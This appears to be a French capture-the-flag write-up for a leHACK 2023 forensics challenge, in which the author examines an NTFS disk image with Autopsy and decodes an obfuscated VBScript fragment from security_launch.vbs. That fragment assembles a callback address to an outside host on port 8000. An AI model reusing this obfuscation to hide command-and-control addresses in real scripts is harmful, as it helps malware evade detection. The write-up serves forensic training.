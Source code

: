 ```yaml
---
title: suspicious_ntfs_drive
categories: [leHACK_2023, Forensic_leHACK]
tags: [Autopsy, image_file]
image: '/assets/images/leHACK_2023/leHACK.jpg'
---
```


## 𝄞 Introduction

![Intro](/assets/images/leHACK_2023/forensic/intro.png)

## 𝄞 Solution

Pour résoudre ce défi de forensic, j'ai commencé par analyser l'image avec le logiciel **Autopsy**.
Notre objectif était de trouver les informations suivantes : **filename.vbs_IP_port** pour trouver le flag.

![Autopsy](/assets/images/leHACK_2023/forensic/vbs.png)

Nous avons trouvé un fichier nommé **security_launch.vbs**.

```
aaa = replace("hello","h","w")
bbb = StrReverse("86")
ccc = Right("90018000",4)
dest = "http://"+chr(49)+"93.1"+bbb+".1.42:"+ccc+"/dothethingzuulee"
```

## 𝄞𝄞 Analyse

Nous allons analyser chaque ligne :

**aaa = replace("hello","h","w")** --> remplace le *h* par *w* dans le chaine **hello** ce qui donne **wello**.   
**bbb = StrReverse("86")** --> on **reverse** *86* ce qui donne *68*  
**ccc = Right("90018000",4)** --> on prends les 4 caractères à droite => 8000  
**dest = "http://"+chr(49)+"93.1"+bbb+".1.42:"+ccc+"/dothethingzuulee"**  
**chr()** est une fonction python qui convertie la valeur en ASCII ici 49 = 1

donc si on remplace nos valeurs on obtien : 193.168.1.42:8000

𝄞 FLAG : `leHACK{security_launch.vbs_193.168.1.42_8000}` 𝄞 

## 𝄞 Conclusion









